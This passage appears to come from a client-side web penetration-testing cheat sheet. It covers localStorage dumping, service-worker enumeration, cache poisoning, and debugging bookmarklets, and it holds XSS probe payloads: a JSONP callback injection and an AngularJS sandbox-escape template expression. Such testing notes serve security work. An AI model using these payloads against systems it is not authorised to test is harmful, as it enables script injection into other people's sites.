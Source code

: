 **Quick dump (DevTools):**

```js
Object.keys(localStorage).forEach(k=>console.log(k, localStorage.getItem(k)))
```

***

### IX. 🛰️ Service Workers & Cache Poisoning (Client)

* Service Worker scope controls network responses; XSS in SW = persistent control.
* Check:

```js
navigator.serviceWorker.getRegistrations().then(r=>r.forEach(sw=>console.log(sw.scope)))
```

* Test cache poisoning via query variation if SW does naive cache keys.

***

### X. 🔎 JSONP, Callback & AngularJS Legacy

**JSONP** endpoints:

```
/api?callback=alert(1)
/endpoint?cb=foo
```

If response wraps attacker-controlled callback → JS execution.

**AngularJS sandbox escape** (very legacy):

```html
{{constructor.constructor('alert(1)')()}}
```

Only applicable to very old Angular versions with untrusted templates.

***

### XI. 🧰 Quick Automation (Browser & Node)

#### A) **Bookmarklets** (drop-in helpers)

Save as bookmarks; click on target pages.

* **Params to console**

```js
javascript:(()=>{const u=new URL(location);console.table([...u.searchParams.entries()])})()
```

* **Highlight sinks**

```js
javascript:(()=>{const bad=['innerHTML','outerHTML','insertAdjacentHTML'];bad.forEach(p=>{const d=Object.getOwnPropertyDescriptor(Element.prototype,p);Object.defineProperty(Element.prototype,p,{set(v){console.log('[SINK]',p,this,v.slice?.(0,120));return d.set.call(this,v)},get:d.get})})})()
```

